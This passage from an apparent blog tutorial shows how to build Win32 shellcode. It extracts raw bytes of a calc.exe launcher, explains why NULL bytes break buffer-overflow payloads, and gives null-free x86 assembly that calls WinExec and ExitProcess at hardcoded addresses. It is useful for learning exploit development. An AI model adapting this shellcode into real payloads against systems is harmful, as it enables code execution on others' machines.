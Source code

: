I promise it works, I did not open `calc.exe` by double clicking…

Alright, we have our compiled code to execute the calculator application, but how do we translate this to some shellcode? 

Be patient young rusher, that is the next point we are going to cover. 

By opening up the binary with a hex editor, we can see the raw bytes that the file consists of. 

![Untitled](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%202.png)

I am using HxD on my Windows VM, but feel free to use any of your liking.

From here, we can either parse the PE file and find the .text section (see [the previous post](https://0xpxt.github.io//The-Portable-Executable-Format/)) which contains the code, or we can be a little more practical and throw the binary into a disassembler, which will tell us where the instructions begin :

![Untitled.png](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%203.png)

As we can see, the program’s main starts at address 0x00401530, let’s find out where it ends :

![Untitled](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%204.png)

Looks like we can get all these bytes now from our hex editor!

Let’s just find them with a search command (Ctrl+F in HxD).

![Untitled](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%205.png)

And here we get the result. We know we need the bytes from `8D 4C 24` to `90 90 90`, so let’s just copy them :

![Untitled](Win32%20Hardcoded%20Shellcode%208c431330619e421ba80f3f998b551f50/Untitled%206.png)

```bash
8D 4C 24 04 83 E4 F0 FF 71 FC 55 89 E5 51 83 EC 14 E8 CA 00 00 00 C7 44 24 04 00 00 00 00 C7 04 24 00 40 40 00 A1 48 61 40 00 FF D0 83 EC 08 C7 04 24 00 00 00 00 A1 00 61 40 00 FF D0 90 90 90
```

There is an issue here that we have not taken into account : the shellcode cannot contain NULL bytes. Why? Because since we will use it to overflow a buffer, the compiler will interpret our shellcode as a string terminator, and will finish running the code at the first NULL byte.

There are techniques to convert shellcode that contains `0x00` bytes to shellcode that doesn’t, but since we want to play around a little bit, let’s generate the shellcode a different way!

In the end, we know that we want to call `WinExec` with *“calc.exe”* as the argument, so why not just code it in assembly?

```bash
xor ebx, ebx          ; set ebx to 0x00
push ebx              ; push 0x00 to stack (String terminator for "calc.exe")
push 0x6578652e       ; "exe."
push 0x636c6163       ; "calc"

mov  eax, esp         ; save pointer to "calc.exe" string in eax

; WinExec
inc  ebx              ; WinExec()'s 2nd argument set to 0x01
push ebx              ; push the argument to stack
push eax              ; push "calc.exe"
mov  ebx, 0x7674E120  ; move &WinExec to ebx
call ebx              ; call WinExec("calc.exe", 0)

; ExitProcess
xor  eax, eax         ; set eax to 0x00
push eax              ; push NULL
mov  eax, 0x767158B0  ; move &ExitProcess to eax
jmp  eax              ; jump to it
```